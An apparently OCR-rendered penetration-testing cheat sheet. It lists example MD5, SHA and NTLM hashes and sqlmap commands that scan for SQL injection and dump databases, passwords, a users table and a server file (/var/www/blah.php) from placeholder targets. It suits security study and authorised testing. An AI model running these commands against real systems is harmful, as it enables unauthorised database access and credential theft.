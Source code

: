 ### **Hash Examples**
Likely just use hash-identifier for this but here are some example hashes:

|**Hash**|**Example**|
| :-: | :-: |
|MD5 Hash Example|8743b52063cd84097a65d1633f5c74f5|
|MD5 \$PASS:\$SALT Example|01dfae6e5d4d90d9892622325959afbe:7050461|
|MD5 \$SALT:\$PASS|f0fda58630310a6dd91a7d8f0a4ceda2:4225637426|
|SHA1 Hash Example|b89eaac7e61417341b710b727768294d0e6a277b|
|SHA1 \$PASS:\$SALT|2fc5a684737ce1bf7b3b239df432416e0dd07357:2014|
|SHA1 \$SALT:\$PASS|cac35ec206d868b7d7cb0b55f31d9425b075082b:5363620024|
|SHA-256|127e6fbfe24a750e72930c220a8e138275656b<br>8e5d8f48a98c3c92df2caba935|
|SHA-256 \$PASS:\$SALT|c73d08de890479518ed60cf670d17faa26a4a7<br>1f995c1dcc978165399401a6c4|
|SHA-256 \$SALT:\$PASS|eb368a2dfd38b405f014118c7d9747fcc97f4<br>f0ee75c05963cd9da6ee65ef498:560407001617|
|SHA-512|82a9dda829eb7f8ffe9fbe49e45d47d2dad9<br>664fbb7adf72492e3c81ebd3e29134d9bc<br>12212bf83c6840f10e8246b9db54a4<br>859b7ccd0123d86e5872c1e5082f|
|SHA-512 \$PASS:\$SALT|e5c3ede3e49fb86592fb03f471c35ba13e8<br>d89b8ab65142c9a8fdafb635fa2223c24e5<br>558fd9313e8995019dcbec1fb58414<br>6b7bb12685c7765fc8c0d51379fd|
|SHA-512 \$SALT:\$PASS|976b451818634a1e2acba682da3fd6ef<br>a72adf8a7a08d7939550c244b237c72c7d4236754<br>4e826c0c83fe5c02f97c0373b6b1<br>386cc794bf0d21d2df01bb9c08a|
|NTLM Hash Example|b4b9b02e6f09a9bd760f388b67351e2b|

## **SQLMap Examples**
sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

|**Command**|**Description**|
| :-: | :-: |
|sqlmap -u http://meh.com –forms –batch –crawl=10<br>–cookie=jsessionid=54321 –level=5 –risk=3|Automated sqlmap scan|
|sqlmap -u TARGET -p PARAM –data=POSTDATA –cookie=COOKIE<br>–level=3 –current-user –current-db –passwords<br>–file-read=”/var/www/blah.php”|Targeted sqlmap scan|
|sqlmap -u “http://meh.com/meh.php?id=1”<br>–dbms=mysql –tech=U –random-agent –dump|Scan url for union + error based injection with mysql backend<br>and use a random user agent + database dump|
|sqlmap -o -u “http://meh.com/form/” –forms|sqlmap check form for injection|
|sqlmap -o -u “http://meh/vuln-form” –forms<br>-D database-name -T users –dump|sqlmap dump and crack hashes for table users on database-name.|
